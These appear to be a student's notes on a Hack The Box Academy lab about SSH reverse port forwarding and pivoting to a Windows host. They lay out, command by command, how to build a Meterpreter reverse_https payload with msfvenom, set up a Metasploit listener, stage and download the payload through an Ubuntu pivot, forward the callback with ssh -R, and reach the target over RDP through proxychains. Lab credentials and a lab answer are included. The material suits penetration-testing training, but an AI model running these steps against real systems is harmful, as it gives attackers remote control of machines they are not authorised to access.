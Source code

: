 
# Remote/Reverse Port Forwarding with SSH

Scenario: A victim Windows server sits behind an Ubuntu pivot host, 10.129.15.50 and 172.16.5.129. Your attack host, 10.10.15.5 uses the Ubuntu machine to pivot to the Windows server.
The Window host has a limited outgoing connection to 172.16.5.0/23 because the Windows server does not have any direct connection with the attack host network. The attack host can gain
access via the Ubuntu server, using it as the pivot point, since it can connect to both the attack host and windows server. To gain a reverse shell on the Windows server you can:

1) Create a Meterpreter HTTPS payload via msfvenom using the Ubuntu server's IP address
2) Use port 8080 on the Ubuntu server to forward all reverse packets to your attackers host on port 8000, where the Metasploit listener is running

### Creating Windows Payload
```python
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

### Configure + Starting the multi/handler
```python
msf6 > use exploit/multi/handler
```

### Transferring Payload to Pivot Host
```python
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```

### Starting Python3 Webserver on Pivot Host
```python
python3 -m http.server 8123
```

### Downloading Payload on Windows Target
```PowerShell
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

### SSH Remote Port Forwarding
```python
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

>[!tip]
> -vN tells SSH to use verbose mode and not prompt for the login shell
> -R asks the Ubuntu server to listen on targetIPAddress:8080 and forward
> all incoming connections on port 8080 to your msfconsole listener on 0.0.0.0:8000

# Questions

Username
```python
ubuntu
```

Password
```
HTB_@cademy_stdnt!
```

SSH
```python
ssh ubuntu@10.129.91.105
```
### 1) Which IP address assigned to the Ubuntu server Pivot host allows communication with the Windows server target?

Answer:
```python
172.16.5.129
```

First I need to generate the msfvenom payload for Windows
```go
msfvenom -p windows/x64/meterpreter/reverse_https lhost=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```

Now I must configure the multi/handler
```go
use exploit/multi/handler
```

```go
set payload windows/x64/meterpreter/reverse_https
```

```go
set lhost 0.0.0.0
```

```go
set lport 8000
```

```go
run
```

Copy payload to Ubuntu server
```go
scp backupscript.exe ubuntu@10.129.91.105:~/
```

In order for the Windows host to download the file, the Ubuntu server must host it since that's the only route the Windows machine has access to too
```go
python3 -m http.server 8123
```

Pivot to Windows host

Username
```go
victor
```

Password
```go
pass@123
```

IP
```go
172.16.5.19
```

Proxychains
```go
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```